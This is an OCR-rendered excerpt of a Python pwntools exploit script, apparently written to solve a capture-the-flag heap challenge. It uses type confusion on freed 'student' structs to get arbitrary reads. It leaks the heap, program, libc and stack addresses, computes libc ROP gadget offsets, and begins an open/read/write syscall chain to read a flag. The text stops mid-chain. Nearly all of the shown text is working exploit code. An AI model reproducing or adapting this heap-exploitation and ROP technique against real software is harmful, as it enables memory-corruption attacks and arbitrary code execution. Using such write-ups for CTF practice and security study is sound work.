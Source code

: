 ```python

    r.sendlineafter(MENU_DELIM, b"1 0 24")
    r.sendline(b" ".join([str(value[x]).encode() for x in range(24)]))

    for i in range(4):
        r.recvuntil(b"choice: \n")


def main():
    r = conn()

    r.recvuntil(MENU_DELIM)


    # first, leak useful info
    # arbitrary read by way of type confusion
    # essentially we allocate and free a student
    # and then allocate a name of same size
    # these will share an address
    # and so we can construct a fake student
    # by controlling the name pointer in the student struct
    # we can read whatever we want

    heap_base = leak_heap(r)
    log.info("heap base: " + hex(heap_base))

    program_base = leak_program_base(r)
    log.info("program base: " + hex(program_base))

    libc_base = leak_libc_base(r, program_base)

    log.info("libc base: " + hex(libc_base))

    stack_ret = leak_stack_base(r, libc_base)

    log.info("stored RIP: " + hex(stack_ret))

    # all gadgets are from libc for convenience

    pop_rax = libc_base + 0x43ae8
    pop_rdi = libc_base + 0x215bf
    pop_rsi = libc_base + 0x23eea
    pop_rdx = libc_base + 0x1b96
    syscall_ret = libc_base + 0xd2745
    pop_rsp = libc_base + 0x3960


    # heap addresses are predictable and if you allocate in the same pattern
    # you can just reuse offsets

    flag_heap_addr = heap_base + 0x13630
    heap_rop_address = heap_base + 0x12dd0

    # find a nice empty chunk in rw program memory for the flag
    flag_read_address = program_base + 0x203048


    # open/read/write syscall chain

    chain = b""
    chain += p64(pop_rax) + p64(2)
    chain += p64(pop_rdi) + p64(flag_heap_addr)
    chain += p64(pop_rsi) + p64(0)
```